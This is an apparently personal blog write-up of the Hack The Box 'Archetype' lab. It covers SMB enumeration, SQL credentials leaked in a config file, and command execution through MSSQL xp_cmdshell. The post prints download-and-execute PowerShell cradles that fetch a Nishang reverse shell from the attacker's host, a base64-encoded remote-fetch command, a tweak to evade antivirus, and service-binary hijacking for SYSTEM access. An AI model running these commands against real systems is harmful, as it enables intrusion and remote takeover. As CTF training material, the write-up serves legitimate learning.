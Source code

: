 ```yaml
---
weight: 1
title: "HacktheBox - Archetype Writeup"
date: 2021-07-20
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["reverse-powershell", "legacy", "smb", "smbclient", "crackmapexec-smb", "impacket-mssqlclient", "mssql", "xp_cmdshell", "nishang", "modify-services", "windows-check-OS-architecture"]
categories: ["HacktheBox","Windows"]

lightgallery: true
toc:
  auto: false
---
```


Box author | {{< person url="https://app.hackthebox.com/users/1190" name="egre55" picture="https://www.hackthebox.com/storage/avatars/a9527867b56b74bd7de6f0b940a04916.png" >}}

<!--more-->

## Enumeration

- 1000 ports scan
```bash
nmap -sC -sV -oN nmap/initial 10.10.10.27
```

![initial nmap scan](1.png "initial nmap scan")

- all ports scan

![full nmap scan](2.png "full nmap scan")

### Open ports
- 135 (msrpc)
- 139 (smb 4 sure)
- 445 (smb 4 sure)
- 1433 (ms-sql-s/Microsoft SQL Server)

## SMB Enum

### CrackMapEXEC

![crackmapexec](3.png "crackmapexec")

### smbclient

![smbclient](4.png "smbclient")

wow `backups` shares. Let's try connect to it.

![backup shares](5.png "backup shares")

- download the file using the `get command`

### prod.dtsConfig
- content of the file

```perl
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```
we've got the credentials

- `ARCHETYPE\sql_svc:M3g4c0rp123`

## Foothold/Gaining Access

### mssqlclient.py[Impacket]

- mssqlclient syntax

```bash
mssqlclient.py <UserID>@<IP addr> -windows-auth
```

![mssqlclient](6.png "mssqlclient")

- always do this after login `enable_xp_cmdshell`
- let's try run `whoami`

![xp_cmdshell whoami](7.png "xp_cmdshell whoami")

- Note: I'm using `xp_cmdshell` then `whoami`

### Nishang

{{< admonition tip "Nishang" >}}
[Nishang](https://github.com/samratashok/nishang) is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming.
{{< /admonition >}}

- I'm gonna copy the `Invoke-PowerShellTcp.ps1` into my `www` directory. Then, rename it to `rev.ps1`

![copy PowerShellTcp.ps1](8.png "copy PowerShellTcp.ps1")

- Open the `rev.ps1` file and pick one of the example. Then `copy` and `paste` it on the last line of the code.

{{< admonition tip >}}
Make sure! change the ip and port
{{< /admonition >}}


![PowerShellTcp.ps1 example](9.png "PowerShellTcp.ps1 example") _examples_

![modify PowerShellTcp.ps1](10.png "modify PowerShellTcp.ps1") <br>_put in here and save it_

- Time to upload the script into the machine by using `mssqlclient.py` that we connected.
	-	I'm gonna run `python server` inside `www` directory.
	-	`python3 -m http.server`
	- Then try to uploaded using this command:
		- `xp_cmdshell powershell IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.16.13:8000/rev.ps1\")`  
	- And this happen

![blocked by AV](11.png "blocked by AV") <br>  _it says this script got blocked by antivirus because of this function_

- So, I change the function into something else. It works.


![execute again](12.png "execute again")

## User flag

![user flag](14.png "user flag")

### WinPEAS

- Upload the winpeas binary into the machine
- I'm gonna use `powershell` to know this machine `architecture`
  - by using this command:
    - `(wmic os get OSArchitecture)[2]`

![check OSArchitecture](13.png "check OSArchitecture")

- This machine is 64-bit. I'm gonna upload `WinPEAS 64-bit version` to work.

- I'm gonna `copy` and `paste` the `WinPEAS` binary into my `www` folder.
- Let's upload it by using this command:
    - `IWR http://10.10.16.13:8000/winPEASx64.exe -OutFile winpeas.exe`

![download WinPEAS](15.png "download WinPEAS")

- Then run it by using this command `.\winpeas.exe`

## Privilege Escalation

### UsoSvc

- `WinPEAS` just found this juicy stuff:

![UsoSVC modify services](16.png "UsoSVC modify services")

### Modify service binary path
- According this [link](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services)
> If the group "Authenticated users" has *<font color="red">SERVICE\_ALL\_ACCESS</font>* in a service, then it can <font color="yellow">modify the binary</font> that is being executed by the service.

---

### Encoded Command
-  Here is the script before Encoded
```powershell
IEX(IWR http://10.10.16.13:8000/zzz.ps1 -UseBasicParsing)
```
- Time to encoded
```bash
echo "IEX(IWR http://10.10.16.13:8000/zzz.ps1 -UseBasicParsing)" | iconv -t utf-16le | base64 -w 0
```
- First, It's gonna encoded into `utf-16le`
- Second, It's gonna encoded into `base64`
- Sources [IppSec](https://youtu.be/iyYqgseKUPM?t=2299)

---

- So, I'm gonna `copy` another `powershell reverse shell` by name it into `zzz.ps1`
- Then upload it using this command:
```powershell
sc.exe config UsoSvc binpath="cmd.exe /c powershell.exe -EncodedCommand SQBFAFgAKABJAFcAUgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA2AC4AMQAzADoAOAAwADAAMAAvAHoAegB6AC4AcABzADEAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnACkACgA="
```

- After that, run this command `sc.exe start UsoSvc`

![create a service](17.png "create a service")


![catch the shell](18.png "catch the shell") <br> _we've got the reverse shell and become system!_

## Administrator Flag

![administrator flag](19.png "administrator flag")

## Conclusion
I’ve learned a lot of tools today and `how to do a PowerShell reverse shell`. Ngl, this is a really fun box. I feel like my brain want to explode

I have a fun time doing this machine and I hope you guys too. Bye ;)